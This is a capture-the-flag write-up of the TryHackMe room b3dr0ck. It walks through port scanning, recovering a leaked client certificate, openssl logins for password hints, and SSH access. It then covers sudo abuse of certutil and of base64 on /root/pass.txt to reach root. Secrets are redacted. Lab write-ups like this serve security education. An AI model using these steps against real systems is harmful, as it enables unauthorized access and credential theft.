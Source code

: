 ```yaml
---
title: "b3dr0ck"
date: 2025-02-13
image: /assets/img/tryhackme/Bedrock/Bedrock_image.jpg
description: Writeup of the TryHackMe-CTF b3dr0ck
categories: [TryHackMe, Easy]
tags: [linux, certificates, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>b3dr0ck</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Server trouble in Bedrock.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/b3dr0ck">https://tryhackme.com/room/b3dr0ck</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge b3dr0ck.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.58.21                                 
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 12:36 EST
  Nmap scan report for 10.10.58.21
  Host is up (0.047s latency).
  Not shown: 65530 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  4040/tcp  open  yo-main
  9009/tcp  open  pichat
  54321/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds
```

From here I proceeded the analysis port by port.

## Port 80 Analysis

Accessing port 80 with a web browser redirects me to port 4040 and showed me the following message:

```text
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

Because of the `OVER 9000` I continued with port `9009`.

## Port 9009 Analysis

The web server timed out, so I tried connecting using `telnet`. The following output has been shortened for better readability:

```bash
$ telnet 10.10.58.21 9009              
Trying 10.10.58.21...
Connected to 10.10.58.21.
Escape character is '^]'.


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? flag
Sorry, unrecognized request: 'flag'

You use this service to recover your client certificate and private key
What are you looking for? private key
Sounds like you forgot your private key. Let's find it for you...

-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----

What are you looking for? public
Sounds like you forgot your certificate. Let's find it for you...

-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----
```

I stored the certificates on my machine and continued with the last port.

## Port 54321 Analysis

The webserver gave me the following error message:
```text
Gave me: `Error: 'undefined' is not authorized for access.` Probably we need the cert?
```

That's interesting because we already received a certificate pair. I tried to connect to the server using `openssl` with success:
```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey -key privkey
```
The output is quite long, so I reduced it for readability:
```bash
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> flag
Unrecognized command: 'flag'

This service is for login and password hints
b3dr0ck> password hints 
Password hint: [removed] (user = 'Barney Rubble')
b3dr0ck> login
Login is disabled. Please use SSH instead.
```

After several attempts to crack the string, I decided to use it as a password and successfully connected via `ssh`. 

## Privilege Escalation Fred

Because I have a valid username and password pair I was able to execute `sudo -l`:

```bash
$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

There is likely a certificate stored for Fred:

```bash
barney@b3dr0ck:~$ cat /etc/passwd | grep fred
	fred:x:1000:1000:Fred Flintstone:/home/fred:/bin/bash
barney@b3dr0ck:~$ sudo certutil fred "Fred Flintstone"
  Generating credentials for user: fred (Fred Flintstone)
  Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
  Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----

```

Let's apply the same approach used for Barney's certificate:

```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey2 -key privkey2
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> hint
Password hint: [removed] (user = 'Fred Flintstone')
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck>

$ ssh fred@10.10.58.21            
fred@10.10.58.21's password: 
fred@b3dr0ck:~$
fred@b3dr0ck:~$ cat fred.txt 
THM{[removed]}
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
red@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

I then proceeded to execute the `base64` command with sudo:

```bash
fred@b3dr0ck:~$ sudo /usr/bin/base64 /root/pass.txt | base64 -d
[removed]
```

At this point, I used `CyberChef` and `Crackstation` to analyze the string:

![Root Password](/assets/img/tryhackme/Bedrock/thm_bedrock_1.jpg)

```bash
fred@b3dr0ck:~$ su root
	Password: 
root@b3dr0ck:/home/fred# cd /root
root@b3dr0ck:~# ls
	pass.txt  root.txt  snap
root@b3dr0ck:~# cat root.txt
THM{[removed]}
```

solved! :)

